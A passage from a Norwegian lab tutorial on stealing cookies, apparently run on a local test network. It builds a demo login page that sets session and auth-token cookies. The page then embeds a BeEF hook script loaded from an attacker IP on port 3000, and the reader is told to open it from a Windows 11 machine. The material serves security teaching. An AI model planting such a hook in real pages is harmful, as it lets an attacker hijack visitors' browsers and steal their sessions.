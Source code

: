```html
                document.cookie = "username=" + username + "; path=/; max-age=31536000";
                
                // 3. Auth token (dette er den "verdifulle")
                document.cookie = "authToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9; path=/";
                
                // 4. HttpOnly cookie (kan IKKE stjeles med JavaScript)
                // Merk: Dette må egentlig settes av server, men vi simulerer
                document.cookie = "secureSession=xyz789abc123; path=/; HttpOnly";
                
                // Vis innlogget status
                document.getElementById('status').style.display = 'block';
                document.getElementById('loggedInUser').textContent = username;
                
                // Vis cookies
                displayCookies();
                
                // Skjul login-form
                document.getElementById('loginForm').style.display = 'none';
            }
        });
        
        function displayCookies() {
            const cookies = document.cookie;
            if (cookies) {
                document.getElementById('cookieDisplay').innerHTML = 
                    cookies.split('; ').map(c => '• ' + c).join('<br>');
            }
        }
        
        // Vis eksisterende cookies ved lasting
        displayCookies();
    </script>

    <!-- BeeF Hook - BYTT UT IP-ADRESSEN! -->
    <script src="http://192.168.111.XXX:3000/hook.js"></script>
</body>
</html>
```

Lagre filen (`Ctrl+O`, Enter, `Ctrl+X`).

---

## Steg 3: Test cookie-siden

### 3.1 Åpne siden på Windows 11

I Windows nettleseren, gå til:
```
http://192.168.111.XXX:8080/cookies-demo.html
```
